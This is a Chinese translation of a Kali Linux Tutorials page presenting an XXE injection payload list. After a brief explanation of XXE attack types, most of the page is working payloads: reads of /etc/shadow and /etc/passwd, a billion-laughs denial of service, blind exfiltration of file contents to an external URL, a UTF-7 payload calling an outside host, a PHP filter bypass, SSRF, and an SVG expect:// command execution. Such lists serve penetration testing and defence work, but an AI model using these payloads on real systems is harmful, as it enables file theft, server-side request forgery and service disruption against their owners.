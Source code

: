 # XML 外部实体-XXE 注入有效负载列表

> 原文：<https://kalilinuxtutorials.com/xml-external-entity-xxe-injection-payload-list/>

[![XML External Entity – XXE Injection Payload List](img//348b20e7d02b213c9abdf72b8fcfe674.png "XML External Entity – XXE Injection Payload List")](https://1.bp.blogspot.com/-vEGOPV2PdNM/Xd97Ll9FL0I/AAAAAAAADqY/PVdi4_CErNMNSwZgmuM_jPWqIpGEw36eACLcBGAsYHQ/s1600/xxe-injection.png)

在本节中，我们将解释什么是 XML 外部实体注入，描述一些常见的示例，解释如何发现和利用各种 XXE 注入，并总结如何防止 XXE 注入攻击。

**什么是 XML 外部实体注入？**

XML 外部实体注入(也称为 XXE)是一个 web 安全漏洞，使得攻击者能够干扰应用程序对 XML 数据的处理。它通常允许攻击者查看应用程序服务器文件系统上的文件，并与应用程序本身可以访问的任何后端或外部系统进行交互。

在某些情况下，攻击者可以升级 XXE 攻击，通过利用 XXE 漏洞执行服务器端请求伪造(SSRF)攻击来危害底层服务器或其他后端基础设施。

XXE 攻击有多种类型:

| ***【xx 型袭击】*** | *描述* |
| --- | --- |
| 利用 XXE 检索文件 | 其中定义了包含文件内容的外部实体，并在应用程序的响应中返回。 |
| 利用 XXE 实施 SSRF 袭击 | 其中外部实体是基于到后端系统的 URL 定义的。 |
| 利用带外盲 XXE 渗出数据 | 敏感数据从应用服务器传输到攻击者控制的系统。 |
| 利用盲 XXE 通过错误消息检索数据 | 攻击者可以在其中触发包含敏感数据的解析错误消息。 |

**也可阅读-[Antispy:免费但强大的反病毒软件& Rootkits 工具包](https://kalilinuxtutorials.com/antispy-free-but-powerful-anti-virus-rootkits-toolkit/)**

**XML 外部实体(XXE)注入负载**

**XXE:基本 XML 示例**

```
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo> 
```

**XXE:实体示例**

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo> 
```

**XXE:文件公开**

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo> 
```

**XXE:拒绝服务示例**

```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag> 
```

**XXE:本地文件包含示例**

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo> 
```

XXE:盲本地文件包含示例(当第一个案例没有返回任何内容时。)

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo> 
```

**XXE:访问控制旁路(加载受限资源–PHP 示例)**

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo> 
```

**XXE:SSRF(服务器端请求伪造)示例**

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo> 
```

**XXE:(远程攻击–通过外部 Xml 包含)示例**

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY test SYSTEM "https://example.com/entity1.xml">]>
<lolz><lol>3..2..1...&test<lol></lolz> 
```

**XXE: UTF-7 Exmaple**

```
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4 
```

**xx:base64 编码**

```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/> 
```

**XXE: XXE 内 SOAP 示例**

```
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body> 
```

**xx:xxin SVG**

```
<svg  xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg> 
```

[**Download**](https://github.com/payloadbox/xxe-injection-payload-list)